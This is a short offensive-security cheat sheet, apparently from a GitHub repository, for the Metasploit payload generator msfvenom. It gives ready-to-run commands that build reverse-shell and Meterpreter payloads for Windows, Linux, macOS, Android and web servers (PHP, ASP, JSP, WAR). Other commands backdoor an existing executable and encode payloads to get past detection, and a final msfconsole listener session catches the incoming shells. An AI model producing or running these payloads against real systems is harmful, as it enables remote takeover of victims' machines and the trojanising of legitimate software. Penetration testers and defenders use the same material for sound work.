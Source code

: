 # MSFVenom

MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

## Creting Binaries
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe`	
  - Creates a simple TCP Payload for Windows
- `msfvenom -p windows/meterpreter/reverse_http LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe`	
  - Creates a simple HTTP Payload for Windows
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f elf > example.elf	
  - Creates a simple TCP Shell for Linux
- `msfvenom -p osx/x86/shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f macho > example.macho`	
  - Creates a simple TCP Shell for Mac
- `msfvenom -p android/meterpreter/reverse/tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} R > example.apk`	
  - Creates a simple TCP Payload for Android

## Web Payloads
Command	Info
- `msfvenom -p php/meterpreter_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.php`
  - Creates a Simple TCP Shell for PHP
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f asp > example.asp`
  - Creates a Simple TCP Shell for ASP
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.jsp`	
  - Creates a Simple TCP Shell for Javascript
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war`	
  - Creates a Simple TCP Shell for WAR

## Windows Payloads

- `msfvenom -l encoders`	
  - Lists all avalaible encoders
- `msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe`	
  - Binds an exe with a Payload (Backdoors an exe)
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe`	
  - Creates a simple TCP payload with shikata_ga_nai encoder
- `msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe`
  - Binds an exe with a Payload and encodes it

## Getting a Metepreter Shell
```
omar@ares:~$ sudo msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
